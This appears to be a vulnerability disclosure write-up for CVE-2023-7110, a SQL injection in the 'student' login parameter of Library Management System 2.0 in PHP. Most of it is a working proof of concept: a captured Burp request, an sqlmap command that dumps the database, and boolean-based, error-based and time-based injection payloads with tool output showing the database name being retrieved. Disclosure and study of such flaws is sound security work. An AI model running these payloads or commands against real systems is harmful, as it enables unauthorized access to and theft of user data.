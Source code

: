 # CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Exploit Title:** CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7110

## References: 
+ **CVE-2023-7110:** https://vuldb.com/?id.249005
+ https://www.cve.org/CVERecord?id=CVE-2023-7110
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7110

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'student' in "/libsystem/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the student login panel: "http://localhost/libsystem/login.php"
+ Fill the student id then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 302
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/libsystem/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

student=test&login=
```

+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: student (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: student=test' OR NOT 8837=8837-- xdiM&login=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: student=test' AND (SELECT 9935 FROM(SELECT COUNT(*),CONCAT(0x7162627671,(SELECT (ELT(9935=9935,1))),0x716a7a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- pYgV&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=test' AND (SELECT 5778 FROM (SELECT(SLEEP(5)))XMIO)-- jzYc&login=
---
[12:29:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP, PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:29:49] [INFO] fetching current database
[12:29:49] [INFO] retrieved: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/f6d52d8d-69a3-4915-a235-3126417374ec)
